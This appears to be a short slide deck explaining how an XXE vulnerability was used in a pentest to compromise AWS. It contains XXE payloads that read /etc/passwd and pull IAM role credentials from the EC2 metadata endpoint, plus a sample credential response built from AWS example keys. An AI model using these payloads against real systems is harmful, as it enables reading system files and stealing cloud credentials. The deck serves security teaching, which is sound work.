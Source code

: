 # XXE and AWS Compromise

---

## @fa[book] Background
![diagram](xxe-aws-compromise/assets/diagram1.png)

---

## @fa[code](XML Entities)
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>

<foo>&xxe;</foo>
```

---

## @fa[file-signature](Pentest Report)
![diagram](xxe-aws-compromise/assets/vuln1.png)

---

## @fab[aws](AWS Metadata)
```xml
 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2-iam-role" >
]>

<foo>&xxe;</foo>
```

`http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2-iam-role`

---

## @fa[file-signature](Pentest Report)
![diagram](xxe-aws-compromise/assets/vuln2.png)

---

## @fa[terminal](Metadata)
```json
{
  "Code" : "Success",
  "LastUpdated" : "2019-07-01T12:11:43Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "AKIAIOSFODNN7EXAMPLE",
  "SecretAccessKey" : "wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY",
  "Token" : "************",
  "Expiration" : "2019-07-01T18:46:08Z"
}
```

---

## @fa[file-signature](Pentest Report)
![diagram](xxe-aws-compromise/assets/vuln3.png)

---

## @fa[book](Summary)
![stop it](https://media.giphy.com/media/l4Ki2obCyAQS5WhFe/giphy.gif)
